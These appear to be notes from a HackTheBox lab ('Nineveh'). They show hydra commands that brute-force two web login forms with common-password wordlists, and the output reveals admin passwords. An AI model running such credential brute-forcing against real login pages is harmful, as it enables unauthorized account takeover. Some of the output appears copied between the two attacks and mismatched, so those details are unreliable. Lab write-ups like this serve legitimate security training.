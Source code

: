 # Web Server on 80 and 443


http://nineveh.htb/department/login.php
![[Pasted image 20211109075215.png]]

https://nineveh.htb/db/index.php
![[Pasted image 20211109075231.png]]


## Brute force logins with hydra

http://nineveh.htb/department/login.php
```bash
$ sudo hydra -l admin -P /opt/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64

[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=^USER^&password=^PASS^:Invalid
[STATUS] 1632.00 tries/min, 1632 tries in 00:01h, 8368 to do in 00:06h, 64 active
[STATUS] 1703.00 tries/min, 5109 tries in 00:03h, 4891 to do in 00:03h, 64 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
```


https://nineveh.htb/db/index.php
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=tru:Incorrect" -t 64
[STATUS] 1632.00 tries/min, 1632 tries in 00:01h, 8368 to do in 00:06h, 64 active
[STATUS] 1703.00 tries/min, 5109 tries in 00:03h, 4891 to do in 00:03h, 64 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found

```
Password: password123 https://nineveh.htb/db/index.php
![[Pasted image 20211109210939.png]]

Creds:admin:1q2w3e4r5t https://nineveh.htb/db/index.php
![[Pasted image 20211109205801.png]]